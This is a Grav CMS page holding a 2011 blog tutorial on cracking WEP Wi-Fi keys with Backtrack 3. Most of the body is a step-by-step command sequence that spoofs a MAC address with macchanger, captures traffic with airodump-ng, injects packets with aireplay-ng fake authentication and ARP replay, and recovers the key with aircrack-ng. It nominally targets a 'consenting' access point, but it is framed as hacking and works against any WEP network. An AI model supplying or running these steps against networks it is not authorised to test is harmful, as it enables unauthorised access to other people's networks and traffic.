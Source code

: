 ```yaml
---
# http://learn.getgrav.org/content/headers
title: Wireless Hacking tutorial using Backtrack
slug: wireless-hacking-tutorial-using-backtrack
# menu: Wireless Hacking tutorial using Backtrack
date: 02-01-2011
published: true
publish_date: 02-01-2011
# unpublish_date: 02-01-2011
# template: false
# theme: false
visible: true
summary:
    enabled: true
    format: short
    size: 128

taxonomy:
    category:
        - Blog
    tag:
        - backtrack
        - hack tool
        - hacking
        - linux
        - software
        - wep
        - wifi
        - wireless
    author:
        - 'Shashank Agarwal'
    migration-status: review
    category: [backtrack,hack tool,hacking,linux,software,wep,wifi,wireless]
    tag: []
author: 'Shashank Agarwal'
metadata:
    author: 'Shashank Agarwal'
#      description: Your page description goes here
#      keywords: HTML, CSS, XML, JavaScript
#      robots: noindex, nofollow
#      og:
#          title: The Rock
#          type: video.movie
#          url: http://www.imdb.com/title/tt0117500/
#          image: http://ia.media-imdb.com/images/rock.jpg
#  cache_enable: false
#  last_modified: true

---
```


Wireless Hacking with backtrack 3 is easy to do , in this article I’d like to guide you in Wireless hacking with backtrack 3. This tutorial is made based on some requests by my subscribers , they’ve been familiar enough with Backtrack 3 , that’s why I made this Wireless Hacking with backtrack 3 tutorial. In order to start the wireless hacking , you need to make sure that you have met these requirements :  
 

– Backtrack 3 or newer release

– 1 wireless router

– Laptop with wireless card

And let the hack begins :

In order to crack a WEP key you must have a large number of encrypted packets to work with. This is an unavoidable requirement if you wish to be successful. The best way to get a large number of packets is to perform an ARP request re injection attack (otherwise known as attack -3). In order to do this attack and get results there must be a client already authenticated with the AP, aor connecting to the AP.

\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*  
Here are some things you need to know before you get confused  
When you see this (device) or (bssid) you DON’T put the ( )!!!  
(device) = Your wireless card \*can be seen by typing in iwconfig EG: eth0, eth1, ath0, ath1  
(bssid) = This is the consenting computers bssid \*when you start airodump-ng if there is a AP in range it will show up on the left side will look similar to 00:11:22:33:44:55  
\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*

Now before we start we need to make a txt file in the home folder. On the desktop you will see 2 icons home and system. Double click the home icon, rigt click the blank white area and select create new Txt File name it Exidous or what ever you want! click ok, now close the window.

Ok let’s start!  
Commands | Meaning  
====================

\*open up 3 shell konsoles by clicking the little black box next to the start button.

\* The first thing were going to do is stop the device aka ethernet card  
airmon-ng stop ath0

\* Now were going to put the wireless card down, so we can fake a mac adress (to see available wireless cards type, iwconfig  
ifconfig (device) down

\* Ok now just to make things simpler, so we don’t have to hunt down what our Mac address is  
macchanger –mac 00:11:22:33:44:55 (device)

\* Now were going to start the wireless card \*make it listen for AP’s  
airmon-ng start (device)

\* Lets start seeing what AP’s are there  
airodump-ng (device)

\* After you see all the AP’s execute the following command to stop it and copy the bssid  
CTRL+C Copy bssid of consenting computer

\* Now on to the consenting computer’s AP (were listening in for authentication packets  
airodump-ng -c 6 -w Exidous –bssid (Bssid) (device)

\* Lets get on with making more Data, and start the injection process  
aireplay-ng -l 0 -a (bssid) -h 00:11:22:33:44:55 (device)

\* Now were going to inject the router \*\*\*this sometimes takes a while to actually inject!  
aireplay-ng -3 -b (bssid) -h 00:11:22:33:44:55 (device)

\* On to cracking the key, \*\*\*AFTER GETTING AT LEAST 5,000 Data/IV’s for 64 bit encryption / AFTER GETTING AT LEAST 10,000 Data/IV’s for 128 bit encryption  
aircrack-ng -n 64 –bssid (bssid) Exidous-01.cap

\* Once you crack the wep key you wright it down, and reboot to windows. Now put it in the username and the password with out the :  
EG: Wep Key = 33:C7:C6:09:30  
When Entered into username and password it will look like this. 33C7C60930

Get backtrack linux at – <http://www.backtrack-linux.org/>

Go to our new site- shankee.com
